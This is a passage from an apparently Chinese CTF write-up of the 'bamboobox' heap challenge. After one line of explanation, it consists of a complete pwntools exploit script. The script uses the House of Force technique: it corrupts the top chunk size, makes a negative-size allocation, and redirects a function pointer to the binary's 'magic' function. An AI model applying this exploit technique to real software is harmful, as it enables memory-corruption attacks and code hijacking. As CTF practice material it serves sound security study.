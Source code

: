 后面就申请一个堆，写入内容，也就是任意地址写。

#### EXP

house of force

```python
from pwn import *
context(log_level='debug',os='linux',arch='amd64')

p = process("./bamboobox")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF("./bamboobox")
# p = remote("node3.buuoj.cn",29945)
# libc = ELF("./libc-2.23.so")

def add(size,content):
	p.recvuntil(':')
	p.sendline('2')
	p.recvuntil(':')
	p.sendline(str(size))
	p.recvuntil(':')
	p.send(content)

def show():
	p.recvuntil(':')
	p.sendline('1')

def edit(id,size,content):
	p.recvuntil(':')
	p.sendline('3')
	p.recvuntil(':')
	p.sendline(str(id))
	p.recvuntil(':')
	p.sendline(str(size))
	p.recvuntil(':')
	p.send(content)

def remove(id):
	p.recvuntil(':')
	p.sendline('4')
	p.recvuntil(':')
	p.sendline(str(id))

add(0x68,'a')
payload = 'a'*0x68+p64(0xffffffffffffffff)
edit(0,len(payload),payload)
add(-0xa0,'b')
add(0x10,'skye'*2+p64(elf.sym['magic']))


p.recvuntil(':')
p.sendline('5')

# gdb.attach(p)
p.interactive()
```

